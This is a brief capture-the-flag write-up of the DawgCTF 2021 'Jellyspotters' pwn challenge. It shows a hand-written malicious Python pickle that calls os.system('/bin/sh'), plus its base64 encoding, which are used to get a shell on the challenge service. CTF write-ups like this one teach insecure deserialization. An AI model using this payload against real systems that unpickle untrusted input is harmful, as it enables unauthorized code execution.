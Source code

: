```yaml
---
title: Jellyspotters
date: 2020-05-08
excerpt: "'Jellyspotters' was a challenge in the Pwn category of DawgCTF 2021"
classes: wide
categories: dawgctf2021
tags:
  - dawgctf2021
  - pwn
  - python
  - pickle
  - base64
---
```



![img](/assets/images/ctf/dawgctf2021-jellyspotters/0.png)


![img](/assets/images/ctf/dawgctf2021-jellyspotters/1.png)

The interesting function is `import`

Breaking the `import` function gives us an error


![img](/assets/images/ctf/dawgctf2021-jellyspotters/2.png)

So it wants a **base64** encoded pickle object and we need to read the flag. Let's get a shell using a malicious pickle object.

reading: https://checkoway.net/musings/pickle/

```
cos
system
(S'/bin/sh'
tR.
```

base64 encoding that gives us

`Y29zCnN5c3RlbQooUycvYmluL3NoJwp0Ui4=`

and passing that to the program...


![img](/assets/images/ctf/dawgctf2021-jellyspotters/3.png)
